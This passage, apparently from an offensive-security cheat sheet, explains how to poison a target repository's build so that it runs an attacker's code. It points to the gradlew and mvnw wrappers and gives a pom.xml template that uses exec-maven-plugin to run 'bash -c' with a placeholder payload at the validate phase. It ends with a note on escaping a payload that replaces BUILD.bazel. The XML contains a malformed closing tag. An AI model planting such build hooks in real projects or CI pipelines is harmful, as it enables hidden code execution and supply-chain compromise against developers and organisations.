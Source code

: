 - `gradlew` 
- `mvnw`
- `gradlew.bat` (windows)
- `mvnw.cmd` (windows)


> Occasionally the wrappers will not be present in the repository.\
> In such cases you can edit the `pom.xml` file, which instructs maven what dependencies to fetch and which `plugins` to run.\
> Some plugins allow code execution, here's an example of the common plugin `org.codehaus.mojo`.\
> If the `pom.xml` file you're targeting already contains a `<plugins>` instruction then simply add another `<plugin>` node under it.\
> If if **doesn't** contain a `<plugins>` node then add it under the `<build>` node.

NOTE: remember that your payload is inserted in an XML document - XML special characters must be escaped.


```xml
<build>
    <plugins>
            <plugin>
                <groupId>org.codehaus.mojo</groupId>
                <artifactId>exec-maven-plugin</artifactId>
                <version>1.6.0</version>
                <executions>
                    <execution>
                        <id>run-script</id>
                        <phase>validate</phase>
                        <goals>
                            <goal>exec</goal>
                        </goals>
                    </execution>
                </executions>
                <configuration>
                    <executable>bash</executable>
                    <arguments>
                        <argument>
                            -c
                        </argument>
                        <argument>{XML-Escaped-Payload}</   argument>
                    </arguments>
                </configuration>
            </plugin>
    </plugins>
</build>
```




### BUILD.bazel

> Replace the content of `BUILD.bazel` with the following payload

NOTE: `BUILD.bazel` requires escaping backslashes.\
Replace any `\` with `\\` inside your payload.
